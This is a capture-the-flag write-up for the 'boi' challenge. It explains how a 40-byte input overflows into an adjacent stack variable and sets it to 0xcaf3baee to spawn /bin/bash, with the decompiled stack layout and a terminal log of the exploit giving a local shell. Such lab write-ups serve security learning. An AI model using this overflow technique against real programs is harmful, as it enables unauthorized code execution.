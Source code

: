# Boi Writeup

## Steps:
1. Notice an input is entered with a limit of `0x28` (`40`), which will likely be used for a buffer overflow. There is a second variable that, if equal to `0xcaf3baee` runs `run_cmd("/bin/bash")`
2. Look at the stack variable layout
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     00400659(W), 
                                                                                                   004006ca(R)  
             undefined4        Stack[-0x20]:4 local_20                                XREF[1]:     00400677(W)  
             undefined4        Stack[-0x24]:4 goal                                    XREF[2]:     0040067e(W), 
                                                                                                   004006a5(R)  
             undefined8        Stack[-0x30]:8 local_30                                XREF[1]:     00400667(W)  
             undefined8        Stack[-0x38]:8 input                                   XREF[2]:     0040065f(W), 
                                                                                                   0040068f(*)  
             undefined4        Stack[-0x3c]:4 local_3c                                XREF[1]:     00400649(W)  
             undefined8        Stack[-0x48]:8 local_48                                XREF[1]:     0040064c(W)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:0040054d(*), 004007b4, 
                                                                                          00400868(*)  
```
input is at `Stack[-0x38]` and the variable we want to change (renamed 'goal') is at `Stack[-0x24]`.
`0x38 - 0x24 = 0x14' which is 20 bytes in decimal. Since we can write 40 bytes, we can access and change 'goal'
3. Create a payload overwriting the 20 bytes from 'input' to 'goal' and set `goal = 0xcaf3baee`
4. Send payload to process


## Solution:
```
$ python3 ex_boi.py  
[+] Starting local process './boi': pid 37830
[*] Switching to interactive mode
Are you a big boiiiii??
$ w
 10:44:17 up  1:09,  2 users,  load average: 0.20, 0.61, 0.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali              -                09:33    1:11m  0.00s  0.03s lightdm --session-child 13 24
kali              -                09:33    1:11m  0.00s  0.53s /usr/lib/systemd/systemd --user
$ ls
boi  ex_boi.py
$ 
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './boi' stopped with exit code 0 (pid 37830)
[*] Got EOF while sending in interactive
```

